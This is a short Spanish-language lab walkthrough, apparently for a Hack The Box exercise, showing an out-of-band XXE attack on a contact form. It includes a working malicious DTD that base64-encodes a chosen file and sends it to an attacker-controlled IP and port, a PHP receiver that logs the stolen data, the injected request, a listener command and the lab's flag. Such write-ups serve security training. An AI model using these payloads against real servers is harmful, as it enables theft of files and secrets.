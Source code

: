 # Laboratorio: XXE OOB 📤

1. Una vez que estemos en la página web, lo que tenemos que hacer es ir al directorio `/blind`, aquí veremos un formulario, interceptamos la solicitud de **`Contact Form`**
---
2. Lo que tenemos que hacer ahora es **hostear** los siguiente archivos en nuestro equipo de atacante 💀

* **`xxe.dtd`**
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=[Archivo a Leer]">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://[OUR_IP]:[Port]/?content=%file;'>">
```

* **`index.php`**
```xml
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
---

3. Enviaremos la siguiente petición en **`Burp Suite`**
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://[IP]:[Port]/xxe.dtd">
  %remote;
  %oob;
]>
<SNIP>
<email>&content;</email>
<SNIP>
```
---
4. Nos ponemos en escucha con **php** `php -S 0.0.0.0:[Port]`
---
5. Mandamos la solicitud y veremos el contenido de la **`flag`**

`<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>`